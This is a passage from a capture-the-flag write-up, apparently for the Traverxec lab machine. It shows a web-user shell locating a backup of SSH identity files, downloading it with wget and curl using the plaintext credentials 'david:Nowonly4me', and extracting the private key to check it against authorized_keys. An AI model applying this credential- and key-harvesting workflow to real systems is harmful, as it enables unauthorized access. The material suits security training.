 Inside the protected-file-area we can see a compressed file:
```shell
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

If we try going to these directory with the web service, we can see a `401 Unauthorized` response so we need some valid credentials to authenticate to the web service using the URL:
```shell
❯ curl 10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>401 Unauthorized</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>401 Unauthorized</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>         
```

We can transfer this file with wget or curl as long as we authenticate to the service:
```shell
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
curl http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz --output backup-ssh-identity-files.tgz
```

We can then decompress its contents:
```shell
❯ tar -xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

There are some SSH keys and since we can read this file and there's the `authorized_keys` file. We can try to validate if this SSH key pairs are authorized by the target server by verifying if the public key `id_rsa.pub` is in the `authorized_keys` file:

```shell
❯ cat id_rsa.pub

───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C
       │ 66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0F
       │ vhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯
❯ cat authorized_keys
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: authorized_keys
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```